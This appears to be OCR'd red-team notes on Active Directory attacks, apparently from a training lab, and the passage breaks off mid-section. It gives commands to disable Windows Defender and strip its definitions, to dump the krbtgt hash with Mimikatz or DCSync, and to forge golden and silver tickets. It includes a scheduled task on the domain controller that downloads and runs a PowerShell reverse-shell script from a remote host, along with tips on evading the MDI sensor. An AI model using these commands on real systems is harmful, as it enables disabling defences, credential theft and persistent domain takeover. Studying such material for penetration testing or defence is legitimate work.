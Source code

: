 Another option, which leaves Defender active is to simple delete the signature database, which you can do with - (BUT be careful in real-time assessment engagements!)
"C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all
Using Command Prompt:
To disable Windows Defender's real-time monitoring:
"C:\Program Files\Windows Defender\MpCmdRun.exe" -disableRealtimeMonitoring
Using DISM (Deployment Image Servicing and Management):
To disable Windows Defender:
DISM /Online /Disable-Feature /FeatureName:Windows-Defender /NoRestart
For disable and enable windows features like defender (useful  official documentation) -
https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-antivirus-on-windows-server?view=o365-worldwide
https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism?view=windows-11
-----------------------------------------------------------------------------------------------------
4. Persistence - (post Domain Admin part)
Golden Ticket - (a valid TGT)
Method 1 (for getting krbtgt secret) - Execute Mimikatz on DC as DA to get krbtgt hash -
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc 
Method 2 (for getting krbtgt secret) - TO use the DCSync features for getting AES keys for krbtgt account. Use the below command with DA privileges (or a user that has replication rights on the domain object) -
SafeyKatz.exe "lsadump::dcsync /user:dcorp-dc\krbtgt" "exit"
NOTE - Using the DCSync option needs no code execution on the target DC.
FINALLY -
Use the below command to create the golden ticket on any machine that has network connectivity with DC.
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:SID /aes256:KEY /startoffset:0 /ending:600 /renewmax:10080 /ptt" "exit"


Bonus ! --> [MDI sensor (be aware) - silent detector]
Silver Ticket - (a valid TGS)
Encrypted and signed by the hash of a service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.
Service rarely check PAC (Privileged attribute certificate)
Service will allow access to the service themselves.
Reasonable persistence period (default 30 days for computer accounts)
Bonus! --> Not detectable by MDI sensor!!! It is actually neglected by the dector because it seems so small to MDI.
Now the Command -
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:SID /target:dcorp-dc.dollarcorp.moneycorp.local /service:SERVICE_NAME(e.g., CIFS, HTTP,HOST, RPCSS etc) /rc4:KEY /startoffset:0 /ending:600 /renewmax:10080 /ptt" "exit"
BONUS! --> [RPCSS service gives us the rights to interact with DC using WMI]
Now, examples -->
Create and schedule a task - noisy but fine for PoC -
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient)>DownloadStiring("http://IP/InvokePowerShellTCP.ps1")'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
Diamond Ticket - (TGT modification attack)
A Diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account.
Golden Ticket was a TGT forging attack whereas Diamond Ticket is a TGT modification attack.
Once again,  the persistence lifetime depends on krbtgt account.
A Diamond Ticket is more opsec safe as it has :-
Valid ticket times because TGT issued by the DC is modified.
In Golden Ticket, there is no corresponding TGT request for TGS/Service ticket requests as the TGT is forged.
Then it should be safe, ain't it? ...Detection?
The only way it is detected is when we are use the Diamond Ticket!
Now, creating a Diamond Ticket -->